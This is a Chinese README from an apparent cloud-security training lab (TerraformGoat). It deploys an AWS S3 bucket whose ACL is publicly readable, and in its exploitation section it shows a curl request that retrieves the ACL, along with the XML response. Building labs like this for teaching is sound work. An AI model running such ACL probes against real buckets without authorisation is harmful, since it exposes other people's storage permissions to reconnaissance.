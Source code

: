 # AWS S3 Bucket ACL 可读漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS S3 Bucket ACL 可读的漏洞环境靶场。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/s3/bucket_acl_readable
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称。

## 漏洞利用

获取 Bucket ACL 策略

```shell
> curl https://houxian-xxx.s3.us-east-1.amazonaws.com/?acl -s | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<AccessControlPolicy xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Owner>
    <ID>xxx</ID>
    <DisplayName>xxx</DisplayName>
  </Owner>
  <AccessControlList>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
        <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
      </Grantee>
      <Permission>READ_ACP</Permission>
    </Grant>
    <Grant>
      <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="CanonicalUser">
        <ID>xxx</ID>
        <DisplayName>xxx</DisplayName>
      </Grantee>
      <Permission>FULL_CONTROL</Permission>
    </Grant>
  </AccessControlList>
</AccessControlPolicy>
```


## 销毁环境

```shell
terraform destroy
```
